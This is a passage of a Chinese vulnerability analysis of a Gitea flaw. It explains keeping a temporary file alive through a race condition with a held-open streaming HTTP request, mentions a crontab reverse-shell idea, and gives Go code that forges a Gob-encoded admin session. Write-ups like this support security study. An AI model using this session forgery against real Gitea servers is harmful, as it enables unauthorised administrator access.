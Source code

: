 另外，作者用到了`defer os.Remove(tmpPath)`这个语法。在go语言中，defer代表函数返回时执行的操作，也就是说，不管函数是否返回错误，结束时都会删除临时文件。

所以，我们需要解决的是两个问题：

1. 能够写入一个.tmp为后缀的文件，怎么利用？
2. 如何让这个文件在利用成功之前不被删除？

我们先思考第二个问题。漏洞发现者给出的方法是，利用条件竞争。

因为gitea中是用流式方法来读取数据包，并将读取到的内容写入临时文件，那么我们可以用流式HTTP方法，传入我们需要写入的文件内容，然后挂起HTTP连接。这时候，后端会一直等待我传剩下的字符，在这个时间差内，Put函数是等待在`io.Copy`那个步骤的，当然也就不会删除临时文件了。

那么，思考第一个问题，.tmp为后缀的临时文件，我们能做什么？

## 漏洞五、伪造session提升权限

最简单的，我们可以向/etc/cron.d/中写入一个crontab配置文件，然后反弹获取shell。但通常gitea不会运行在root权限，所以我们需要思考其他方法。

gitea使用[go-macaron/session](https://github.com/go-macaron/session)这个第三方模块来管理session，默认使用文件作为session存储容器。我们来阅读[go-macaron/session源码](https://github.com/go-macaron/session/blob/master/file.go)：

[![carbon_7.png](https://www.leavesongs.com/media/attachment/2018/07/14/e3628bed-03fe-4b47-aa9c-8c3f389c56f0.573817dfc242.png)](https://www.leavesongs.com/media/attachment/2018/07/14/e3628bed-03fe-4b47-aa9c-8c3f389c56f0.png)

这里面有几个很重要的点：

1. session文件名为`sid[0]/sid[1]/sid`
2. 对象被用Gob序列化后存入文件

Gob是Go语言独有的序列化方法。我们可以编写一段Go语言程序，来生成一段Gob编码的session：

```go
package main

import (
    "fmt"
    "encoding/gob"
    "bytes"
    "encoding/hex"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{} {"_old_uid": "1", "uid": uid, "uname": "vulhub" }
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```
